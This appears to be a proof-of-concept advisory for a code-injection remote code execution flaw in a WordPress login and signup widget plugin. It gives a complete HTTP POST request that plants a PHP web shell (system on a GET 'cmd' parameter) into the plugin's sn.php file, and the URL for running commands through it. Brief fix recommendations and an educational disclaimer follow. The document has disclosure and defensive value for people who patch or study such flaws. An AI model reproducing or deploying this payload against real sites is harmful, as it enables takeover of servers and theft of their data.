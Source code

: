 
# 🚨 WordPress Custom Login And Signup Widget Plugin <= 1.0 - Arbitrary Code Execution (RCE)

## 🐞 Vulnerability Summary

**Improper Control of Generation of Code ('Code Injection')** vulnerability in `bitto.Kazi Custom Login And Signup Widget` allows arbitrary PHP code execution by authenticated admin users.  
This issue affects all versions **up to and including 1.0**.

> 🔥 **Base Score:** 9.1 (CRITICAL)  
> **CWE ID:** CWE-94 – Improper Control of Generation of Code ('Code Injection')

---

## 🧠 Description

The plugin allows administrators to modify the contents of `sn.php` via the **Sender’s Name** field in the settings page.  
User-supplied input is **written directly into a PHP file** without sanitization or validation.

As a result, any PHP code provided in the `text` parameter will be stored inside a PHP file and executed upon direct request, leading to **remote code execution (RCE)**.

---

## 📍 Vulnerable Endpoint

```
/wp-admin/options-general.php?page=custom-login-and-signup-widget&editbn1=yes
```

---

## 📥 Request (Burp Suite Format)

```http
POST /wp-admin/options-general.php?page=custom-login-and-signup-widget&editbn1=yes HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://target.com/wp-admin/options-general.php?page=custom-login-and-signup-widget
Content-Type: application/x-www-form-urlencoded
Content-Length: 121
Origin: http://target.com
Connection: keep-alive
Cookie: *<insert your admin cookie here>*
Upgrade-Insecure-Requests: 1
Priority: u=0, i

text=%3C%3Fphp+if%28isset%28%24_GET%5B%27cmd%27%5D%29%29+system%28%24_GET%5B%27cmd%27%5D%29%3B+%3F%3E&submit=Submit
```

---

## 💉 Injection Point

- Parameter: `text`
- Type: **POST**
- Role required: **Administrator**
- File affected: `sn.php` (plugin config include)

---

## 🧬 Injected Content Stored in File

```php
<?php
global $bwbn;
if(isset($_GET['cmd'])) system($_GET['cmd']);
?>
```


---

## 📁 File Written To:

```
http://target.com/wp-content/plugins/custom-login-and-signup-widget/content/sn.php
```

After successful injection, access it directly to execute commands via:

```
http://target.com/wp-content/plugins/custom-login-and-signup-widget/content/sn.php?cmd=id
```

---

## 🛡️ Recommendations

- Restrict file write operations.
- Sanitize and validate all inputs before writing to PHP files.
- Never allow dynamic content to be written into `.php` files.

---

## ⚠️ Disclaimer

**This project is created for educational and research purposes only.**  
Any use of the provided information is at your own risk.  
The author assumes no liability for any misuse or damage caused by this content.

---

### ✍️ _By: Khaled_Alenazi (Nxploited)_
